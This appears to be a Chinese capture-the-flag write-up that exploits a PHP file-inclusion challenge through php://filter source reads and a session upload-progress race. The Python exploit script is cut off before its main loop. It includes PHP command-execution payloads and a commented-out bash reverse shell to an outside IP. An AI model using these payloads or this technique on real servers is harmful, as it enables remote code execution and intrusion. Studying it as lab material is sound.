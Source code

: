 ## web-13 写个phpinfo能有多大风险

这个题目卡了好久，通过url判断考查的是php文件包含，构造filter抓取了index.php的文件，发现特别直白。

https://include-ctfd.dun.mi.com/index.php?page=php://filter/read=convert.base64-encode/resource=index.php

```php
<?php
if ($_GET[page]) {
    include $_GET[page];
} else {
    include "index.html";
}
```

但是 `php://input` 协议没有，果然没有这么简单。

说是有个phpinfo，找了一圈在info.php找到了。

```text
allow_url_fopen=On
allow_url_include=Off
```

可以看到allow_url_include是off，怪不得php://input无效。

百度找到一个smb加载远程文件的方法，但是只针对Windows环境，从phpinfo中看出这明显是一个linux环境。

继续百度，找一个session上传进程漏洞利用。当session.upload_progress.enabled开启的时候会将上传文件的进度序列化保存到本地文件中，
这个文件的路径和文件名可以通过猜测获得。于是通过包含这个进度文件，能够实现执行自定义命令的效果。

但是这个过程极快，需要一个脚本不停的尝试。

```python
import requests
import time
import threading

host = 'https://include-ctfd.dun.mi.com/'
PHPSESSID = 'vrhtvjd4j1sd88onr92fm9t2gt'

headers = {
    'Cookie': 'TODO miduncookie; PHPSESSID=' + PHPSESSID}

# data = {"PHP_SESSION_UPLOAD_PROGRESS": "<?php system('/bin/bash -i >& /dev/tcp/10.167.90.69/3000 0>&1');?>"}
data = {"PHP_SESSION_UPLOAD_PROGRESS": "<?php echo `ls -al /home/mywww/flag_is_here`;?>"}


# data = {"PHP_SESSION_UPLOAD_PROGRESS": "<?php echo `cat /home/mywww/flag_is_here`;?>"}

def creatSession():
    while True:
        files = {
            "upload": ("tmp.jpg", open("/etc/passwd", "rb"))
        }
        # data = {"PHP_SESSION_UPLOAD_PROGRESS": "<?php echo md5('1');?>"}

        r = requests.post(host + "/info.php", files=files, headers=headers, data=data)
        # print(r.text)


fileName = "/var/lib/php/sessions/sess_" + PHPSESSID

if __name__ == '__main__':

    url = "{}index.php?page={}".format(host, fileName)
```